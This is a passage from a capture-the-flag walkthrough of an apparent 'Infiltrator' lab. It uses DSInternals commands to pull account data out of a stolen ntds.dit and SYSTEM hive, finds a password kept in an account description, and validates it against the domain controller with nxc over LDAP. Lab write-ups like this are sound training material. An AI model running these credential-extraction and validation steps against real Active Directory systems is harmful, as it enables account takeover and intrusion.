 This should imediately be super interesting. These 3 files can potentially contain a huge trove of useful information. I will go ahead and spoil some information: you will not get what you need by just using impacket-secretsdump.

By doing a bit of googling about ntds.dit though, you come upon this article: [https://www.netwrix.com/ntds\_dit\_security\_active\_directory.html](https://www.netwrix.com/ntds_dit_security_active_directory.html)

Following the details of the article, and making some modifications based on our situation, we will need to install DSInternals on our windows attack host: [https://github.com/MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

We will also need to move the ntds.dit and system files over to our windows attack machine.

We can then run a couple of DSInternals commands:

```
PS C:\users\kali\downloads> $Key = Get-BootKey -SystemHiveFilePath .\SYSTEM                                             
PS C:\users\kali\downloads> Get-ADDBAccount -BootKey $Key -DatabasePath .\ntds.dit -All
```

And we get a HUGE amount of output. You will need to spend some time going through it all, and almost all of it is garbage, until you come upon this portion:

{% code overflow="wrap" %}
```
SamAccountType: User                                                                                                                                                                                            UserAccountControl: NormalAccount                                                                                                                                                                               Description: l@n_M@an!1331                                                                                                                                                                                      Notes:                                                                                                                                                                                                          PrimaryGroupId: 513
```
{% endcode %}

It looks like we gained the password for the lan\_managment account, which has been hinted at a couple times through the lab. We can confirm this password works with nxc and ldap:

```
┌──(kali㉿kali)-[~]
└─$ nxc ldap dc01.infiltrator.htb -u lan_managment -p 'l@n_M@an!1331'      
SMB         10.129.171.160  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.129.171.160  389    DC01             [+] infiltrator.htb\lan_managment:l@n_M@an!1331
```

managmnt is spelled incorrectly. If your ldap is returning false, make sure you drop an "e".

With our new account, one of the first things you should check is the outbound permissions in bloodhound, especially since we don't remember seeing a home folder for the user on the dc01 machine:
